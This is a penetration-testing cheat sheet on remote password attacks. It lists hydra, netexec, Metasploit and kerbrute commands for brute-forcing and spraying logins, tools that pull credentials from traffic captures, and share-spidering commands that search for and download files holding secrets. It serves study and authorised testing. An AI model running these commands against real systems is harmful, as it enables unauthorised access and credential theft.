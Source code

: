 # Remote Password Attacks

## Network Services and Credential Hunting

**Winrm**
````
$ netexec winrm <IP> -u user.list -p password.list
````

**Hydra: ssh, smb, rdp**
````
$ hydra -L user.list -P password.list ssh://<IP>
$ hydra -L user.list -P password.list rdp://<IP>
$ hydra -L user.list -P password.list smb://<IP>
$ hydra -l username -P password.list <service>://<ip>
------------------------------------------------
- Metasploit SMB -
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197
msf6 auxiliary(scanner/smb/smb_login) > set rhosts <IP>
````

**Password Spraying**
````
$ netexec smb <IP>/24 -u <usernames.list> -p 'ChangeMe123!'
$ kerbrute passwordspray -d test.local domain_users.txt password123
````

**Enumerate Valid Users**
````
$ ./kerbrute_linux_amd64 userenum --dc <IP> --domain <domain> <list_of_users>
````

**Credential Stuffing**

https://github.com/ihebski/DefaultCreds-cheat-sheet
````
$ creds search linksys
$ creds search tomcat
$ creds search <service>
````

## Credential Hunting

**Network Traffic**

Pcredz is a tool that can be used to extract credentials from live traffic or network packet captures. Specifically, it supports extracting the following information:

Credit card numbers
POP credentials
SMTP credentials
IMAP credentials
SNMP community strings
FTP credentials
Credentials from HTTP NTLM/Basic headers, as well as HTTP Forms
NTLMv1/v2 hashes from various traffic including DCE-RPC, SMBv1/2, LDAP, MSSQL, and HTTP
Kerberos (AS-REQ Pre-Auth etype 23) hashes
````
https://github.com/lgandx/PCredz
$ ./Pcredz -f demo.pcapng -t -v
````

**Network Shares**

Common credential patterns:

- Look for keywords within files such as passw, user, token, key, and secret.
- Search for files with extensions commonly associated with stored credentials, such as .ini, .cfg, .env, .xlsx, .ps1, and .bat.
- Watch for files with "interesting" names that include terms like config, user, passw, cred, or initial.

**Hunting from Windows**

Snaffler
````
c:\Users\Public>Snaffler.exe -s
````

PowerHuntShares
````
# Bypass execution policy restrictions
> Set-ExecutionPolicy -Scope Process Bypass
# Import module that exists in the current directory
> Import-Module .\PowerHuntShares.psm1
> Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public
````

**Hunting from Linux**

MANSPIDER
````
https://github.com/blacklanternsecurity/MANSPIDER
$ docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider <IP> -c 'passw' -u '<user>' -p '<password>'
````

NetExec
````
$ nxc smb <IP> -u <user> -p '<user>' --spider <share> --content --pattern "passw"
$ nxc smb <IP> -u '<user>' -p '<user>' --shares -M spider_plus -o DOWNLOAD_FLAG=True (Dwonload all files)
````

